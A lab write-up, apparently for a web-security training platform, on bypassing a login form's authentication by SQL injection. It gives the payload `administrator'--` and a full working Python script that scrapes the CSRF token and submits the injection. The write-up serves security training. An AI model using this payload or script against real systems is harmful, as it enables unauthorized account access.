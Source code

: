 ```yaml
---
title: '2 SQLi Lab'
description: 'Bypassing authentication through classic SQL injection on a vulnerable login form.'
---
```



## SQL injection vulnerability allowing login bypass

<div style="text-align: justify;">
  In this lab, I exploited a classic SQL injection vulnerability in a login form to bypass authentication. By injecting malicious input directly into the username field, I was able to manipulate the backend SQL query and log in as the administrator—without needing the actual password. This vulnerability highlights the critical importance of sanitizing user input and using parameterized queries to prevent injection attacks.

  The bypass was achieved using a simple payload that comments out the password check portion of the SQL query. It was also essential to dynamically extract the CSRF token from the login page, as the application enforced token-based protection for form submissions.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The login form input is vulnerable to SQL injection.
- Use a crafted username: `administrator'--` to bypass password validation.
- The server executes a manipulated SQL query and logs you in as the administrator.
- CSRF token is fetched dynamically to make a valid login attempt.
- A successful login is confirmed when the usual "Invalid username or password" error does not appear.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    uri = "/login"
    r = s.get(url + uri , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input") ['value']
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf": csrf,
            "username": payload,
            "password": payload}
    uri = "/login"
    r = s.post(url + uri, data=data, verify=False, proxies=proxies)
    res = r.text
    
    if "Invalid username or password." in res:
        return False
    else:
        return True
    
if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        sqli_payload = "administrator'--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' %sys.argv[0])
        
    s = requests.Session()
    
    if exploit_sqli(s, url, sqli_payload):
        print("[+] SQL injection successful! We have logged in as the administrator user.")
    else:
        print("[-] SQL injection unsuccessful.")
```


<Comment />
